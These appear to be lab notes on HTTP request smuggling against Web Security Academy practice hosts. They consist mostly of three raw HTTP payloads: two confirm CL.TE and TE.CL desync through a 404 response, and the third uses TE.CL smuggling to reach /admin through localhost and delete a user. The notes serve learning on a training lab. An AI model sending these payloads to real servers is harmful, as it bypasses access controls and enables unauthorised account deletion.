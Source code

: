# Confirming CL.TE using 404:
```http
POST / HTTP/1.1
Host: 0af9007904fb4a27815f4872004e0059.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-ignore: X
```
- Confirmed the vulnerability since 404 was recieved on second request
- 0 terminates the first request and the rest is added to the next request

 # Confirming TE.CL using 404:
```http
POST / HTTP/1.1
Host: 0ab8004a04c7b6ce8030d11c00020039.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```
- Confirmed the vulnerability since 404 was recieved on second request
- 5e is the length of the text following it
- The 0 terminates the request

 # Using TE.CL to get to /admin and delete a user:
```http
POST / HTTP/1.1
Host: 0af3007d04729f70813de18000e00034.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

88
POST /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```
